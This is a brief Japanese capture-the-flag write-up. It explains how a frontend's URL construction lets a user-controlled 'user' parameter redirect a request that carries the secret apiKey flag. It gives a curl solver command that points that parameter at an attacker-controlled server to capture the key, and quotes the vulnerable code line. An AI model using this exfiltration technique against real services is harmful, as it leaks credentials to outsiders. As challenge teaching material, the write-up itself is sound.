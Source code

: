 # 解説
frontend.tsがクライアントで，user-search.tsがサーバー側で、サーバーはユーザー検索を行うAPIを提供しており、apikeyで認証を行っており、apikeyがFLAGなので、このapikeyを取得するのが目的。
frontend.tsで我々の入力したuserというクエリ文字列の名前を検索するリクエスト(apikeyを含む)をサーバー(user-search.ts)に送られるようになっており、この通信に注目するとよい。

# solver
```
curl 'http://35.194.136.248:3000/search?user={自身の管理するサーバーのURL}'
```

user変数に外部のサーバーのURLを入れてしまうと、リクエストがその外部のURLに飛んでしまい、そのリクエストに$FLAGが入っているので、自分の管理する外部サーバーのログを見ると，FLAGの入ったリクエストを見ることができると思います。

# 脆弱性のある箇所
- frontend.ts
$\{user\}にURLを入れるとそこにFLAGごとリクエストが飛ぶ
```
const uri = new URL(`${user}?apiKey=${FLAG}`, userSearchAPI);
```

# 感想
蛇足ですが、僕はSAORIとIROHAが好き
ペロロは...まぁ、可愛いですよね
